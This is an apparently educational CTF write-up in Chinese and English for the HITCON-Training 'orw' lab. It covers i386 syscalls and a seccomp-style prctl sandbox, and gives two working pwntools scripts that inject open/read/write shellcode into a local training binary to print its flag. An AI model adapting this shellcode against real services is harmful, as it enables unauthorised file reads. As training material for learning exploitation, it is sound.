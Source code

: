 # Lab2 orw

## 先備知識

### System call

system call function, eax, ebx, ecx, edx

![imgae](https://github.com/KJ-black/CTF-write-up/blob/main/HITCON-Training/jpg/row.png)

### prctl() process control

可以對process進行一些設置，可以限制process的系統調用

### .bss address

0804A040

### assembly code

[官方asm document](http://docs.pwntools.com/en/stable/asm.html)

- open

    ```wasm
    pop ebx ; ebx's value is filename, fd
    mov eax,5 ; open system call number
    mov ecx,0 ; flag
    int 0x80 ; after open finished, fd will return to eax
    ```

- read

    ```wasm
    mov ebx,eax ; fd
    mov ecx,esp ; put buffer in stack
    mov edx,0x60 ; size, we give it randomly
    mov eax,3 ; read system call number
    int 0x80 ; read will return the length
    ```

- write

    ```wasm
    mov edx, eax ; we put the length to edx
    mov ebx,1 ; stdout
    mov eax, 4
    int 0x80
    ```

- exit

    ```wasm
    mov eax,1
    int 0x80
    ```

## ORW (open read write)

調用system call的open read write取得flag

1. 先將打開該檔案open(filepath)
2. 讀取該檔案內容至內存
3. 利用write將內存用stdout輸出

## Solve

### solve 1 with asm

```python
from pwn import *

#r = remote("csie.ctf.tw", 10134)
r = process('./orw.bin')

sc = asm(
"""
    jmp hello
write:
	
	pop ebx 
	mov eax,5
	mov ecx,0 
	int 0x80 

	mov ebx,eax
	mov ecx,esp 
	mov edx,0x60
	mov eax,3 
	int 0x80
	
	mov edx, eax
	mov ebx,1
	mov eax, 4
	int 0x80
	
	mov eax,1
	int 0x80

hello:
    call write
    .ascii "/home/orw/flag"
    .byte 0
""", arch="i386")

r.recvuntil(":")
r.sendline(sc)
print r.recvall()
r.close()
# r.interactive()
```

## solve 2 with shellcraft (sc)

```python
#!/usr/bin/env python
#coding:utf-8

from pwn import *
from pwn import shellcraft as sc
context.log_level = "debug" # debug mode

shellcode = sc.pushstr("flag") # first push the filepath to the top of the stack
shellcode += sc.open("esp", 0, 0) # open the top of stack
shellcode += sc.read("eax", "esp", 0x100) # ( mov ebx,eax , mov ecx,exp , mov edx 0x100 )
shellcode += sc.write(1, "esp", 0x100) # ( mov ebx,1 , mov ecx,esp , mov, edx 0x100 )

io = process("./orw.bin")
#print(asm(shellcode))
io.sendlineafter("shellcode:", asm(shellcode))
print io.recvall()
io.close()
```
